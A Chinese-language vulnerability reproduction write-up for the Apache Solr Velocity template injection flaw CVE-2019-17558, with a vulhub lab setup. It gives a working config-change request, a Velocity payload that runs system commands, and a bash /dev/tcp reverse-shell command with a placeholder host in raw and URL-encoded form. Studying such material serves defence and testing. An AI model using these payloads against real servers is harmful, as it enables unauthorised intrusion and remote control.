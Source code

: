 ```yaml
---
title: Apache Solr Velocity模板远程执行 CVE-2019-17558
---
```


# Apache Solr Velocity模板远程执行 CVE-2019-17558

## 漏洞描述
2019年10月末，GitHub代码中安全研究员S00pY发布一个Apache Solr Velocity模版注入远程命令执行的POC，发现网络上出现针对Apache Solr服务器的远程代码执行漏洞。该漏洞是由于Velocity模板存在注入所致（Velocity是一个基于Java的模板引擎，可让使用者通过模板语言引用Java中定义的对象）。攻击者在知道Solr服务器上Core名称后，先把params.resource.loader.enabled设置为true（就可加载指定资源），再进行远程执行命令。

## 影响版本
<a-checkbox checked>Apache Solr 5.x 至 8.2.0</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d
```

创建一个solr核心test
```shell
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现
打开后获取 Core 信息

![eba902b3-616d-4c1d-b357-2ab754df6d8b](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/eba902b3-616d-4c1d-b357-2ab754df6d8b.png)

访问Core的config配置信息时，通过POST请求把`{% em type="red" %}params.resource.loader.enabled{% endem %}`设置为 True，再通过精心构造的get请求即可RCE，此时用户就可以加载指定资源，构造一个能执行命令的恶意请求

设置`params.resource.loader.enabled为True`

![fde10f99-354f-45bf-85ab-9abab467f8c1](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fde10f99-354f-45bf-85ab-9abab467f8c1.png)

```shell
POST /solr/test/config HTTP/1.1
Host: 

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

再使用POC造成命令执行

```shell
/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20220307152918862](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220307152918862.png)

反弹hell，因为部分命令会被过滤导致返回 Error 500 ，所以反弹shell需要用另外的反弹shell方法

```
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
```

POC需要`Urlencoding`进行编码才能绕过

```
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```

